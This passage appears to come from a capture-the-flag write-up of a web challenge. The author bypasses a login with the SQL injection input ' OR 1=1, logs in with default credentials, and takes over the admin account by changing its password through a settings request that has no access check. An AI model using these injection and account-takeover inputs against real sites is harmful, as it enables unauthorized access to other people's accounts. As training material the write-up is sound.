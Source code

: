 ```
username: ' OR 1=1
password: asdf
```

And the sign in was successful. Ok, that's good. From the settings tab I can even change the username and the password.



I see one post from user `user`. Let's try to login as him with:

```
username: user
password: password
```

Aaaand it works... And we see the flag. That was a little lame...

The user has no private posts as far as I can see. So let's attack the admin user.

---

## Flag 1 - if 'c' is for user then 'b' is for admin!

You can change the password from settings. The request that does that is:

```
/index.php?page=account.php?username=user&password=password

HTTP/2 200 OK
date: Thu, 31 Mar 2022 14:21:38 GMT
content-type: text/html
content-length: 612
server: openresty/1.19.9.1
x-powered-by: PHP/5.5.9-1ubuntu4.24
vary: Accept-Encoding
content-encoding: gzip
X-Firefox-Spdy: h2
```

It passes both the username and the password. I can see that I have some session cookie, but I don't think it is necessary.

Let's change the password for the admin user by passing:

```
username=admin&password=password
```

It returned `200`. Let's login. Done! The flag is on the admin's home page.

That was easy!

Wait... `Flag already claimed`??? Did I change the username of the user `user`? It seems so... Ok, now there are two admins. I change the username back so that I won't confuse myself later.

I see that the link for a user's profile is:
```
/index.php?page=profile.php&id=c
```
